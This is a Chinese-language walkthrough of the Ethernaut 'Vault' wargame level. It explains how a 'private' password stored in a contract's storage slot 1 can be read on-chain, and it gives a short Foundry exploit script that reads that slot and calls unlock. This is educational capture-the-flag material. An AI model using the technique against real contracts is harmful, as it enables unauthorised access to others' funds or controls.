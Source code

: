 # Level 8 - Vault

## 題目
[Vault](https://ethernaut.openzeppelin.com/level/0xB7257D8Ba61BD1b3Fb7249DCd9330a023a5F3670)

### 通關條件
打開金庫(Vault)來通過這一關ㄅ！
### 合約內容
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```
## 解題
這題是打開金庫，就是把 `locked` 變成 `false` 就可以了
只要在合約 13 行的 `unlock(bytes32 _password)`輸入正確的密碼，就可以改變`locked`的值。所以只要取得 `password` 的值就可以解開這題。
智能合約的特色就是所有的資料和操作都會上鏈。雖然 `password` 被宣告為 `private`，但依然會被存在鏈上。所以我們要算出他被儲存在合約的哪裡。

在 Solidity 中，合約的**狀態變數**都會被存在 storage slot 中，storage slot 會被實際寫入到區塊鏈上，每個合約可以有 $2^{256}$ 個 slot，每個 slot 可以存放 256 bit（32 bytes）。今天如果兩個變數宣告的長度都沒有超過 32 bytes 會被放入同一個 slot 中。

>[!Tip]
> Solidity 變數分為三種：
> 1. 狀態變數 state variable：儲存在鏈上，在 function 外、合約內宣告
> 2. 局部變數 local variable：宣告在 function 內，function 跑完就被釋放
> 3. 全域變數 global variable：預留關鍵字，不用宣告可以直接使用

關於 storage slot 可以看以下幾篇有更詳細的解釋：
- [WTF Solidity极简入门: 5. 变量数据存储和作用域 storage/memory/calldata](https://github.com/AmazingAng/WTF-Solidity/tree/main/05_DataStorage)
- [Understanding Solidity’s Storage Layout And How To Access State Variables](https://medium.com/@flores.eugenio03/exploring-the-storage-layout-in-solidity-and-how-to-access-state-variables-bf2cbc6f8018)

這題合約中的變數有兩個，分別是`bool locked` 和 `bytes32 password`。按照儲存規則，slot 會長這樣：

| slot idx | (type)Variable | 
| ------| --------        |
| 0     | (bool) locked    |
| 1     | (bytes32) password|

所以我們要讀取 slot 1 取得 `password`，再呼叫 `unlock(bytes32 _password)` ，關於讀取的方法我是用 [Foundry 的 vm.load](https://book.getfoundry.sh/cheatcodes/load) 完成，攻擊合約如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/08_Vault.sol";

contract ExploitScript is Script {
    Vault public level08 = Vault(your_challenge_address);

    function run() external {
        vm.startBroadcast();

        bytes32 password = vm.load(address(level08), bytes32(uint256(1)));
        level08.unlock(password);

        vm.stopBroadcast();
    }
}
```
###